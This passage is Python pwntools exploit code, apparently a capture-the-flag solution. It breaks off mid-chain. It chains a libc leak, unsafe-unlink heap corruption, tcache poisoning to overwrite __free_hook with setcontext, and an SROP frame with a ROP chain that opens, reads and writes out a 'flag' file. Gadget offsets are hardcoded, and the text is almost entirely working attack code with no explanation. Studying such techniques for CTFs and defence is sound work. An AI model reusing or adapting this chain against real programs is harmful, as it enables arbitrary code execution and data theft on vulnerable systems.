 ```
    log.success("libc_base:\t" + hex(libc_base))
    # 7 8 0 1 2 3 4 5 6 9
    edit(7, 'a' * 0x100 + p64(0x110))
    edit(0, 'a' * 0xF0 + p64(0) + p64(0x121) + p64(0))
    edit(8, 'a' * 0x108)
    heap8_addr = heap_base + 0xdc0
    target = heap8_addr + 0x10
    FD = target - 0x18
    BK = target - 0x10
    edit(8, p64(FD) + p64(BK) + p64(heap8_addr - 0x10) + 'a' * (0x100 - 0x18) + p64(0x110))
    for i in range(6):
        delete(i + 1)
    delete(9)

    delete(7)
    for i in range(7):
        add(0x108)  # 1 2 3 4 5 6 7

    add(0x108)  # 9
    add(0x108)  # 10

    delete(1)
    delete(8)
    free_hook_addr = libc_base + libc.sym['__free_hook']
    setcontext_addr = libc_base + libc.sym['setcontext'] + 53
    edit(10, p64(free_hook_addr) + '\x00' * 0x100)

    add(0x108)  # 1
    add(0x108)  # 8 #get free_hook
    add(0x200)  # 11

    pop_rdi_addr = libc_base + 0x2155f
    pop_rsi_addr = libc_base + 0x23e6a
    pop_rdx_addr = libc_base + 0x1b96
    pop_rax_addr = libc_base + 0x439c8
    syscall_addr = libc_base + 0xd2975

    # SROP
    fake_frame_addr = heap_base + 0x1750
    frame = SigreturnFrame()
    frame.rdi = fake_frame_addr + 0xF8 + 0x10
    frame.rsi = 0
    frame.rdx = 0x100
    frame.rsp = fake_frame_addr + 0xF8 + 0x20 + 0x8
    frame.rip = pop_rdi_addr + 1  # : ret

    rop_data = [
        pop_rax_addr,  # sys_open('flag', 0)
        2,
        syscall_addr,
        pop_rax_addr,  # sys_read(flag_fd, heap, 0x100)
        0,
        pop_rdi_addr,
        3,
        pop_rsi_addr,
        fake_frame_addr + 0x200,
        syscall_addr,

        pop_rax_addr,  # sys_write(1, heap, 0x100)
        1,
        pop_rdi_addr,
        1,
        pop_rsi_addr,
```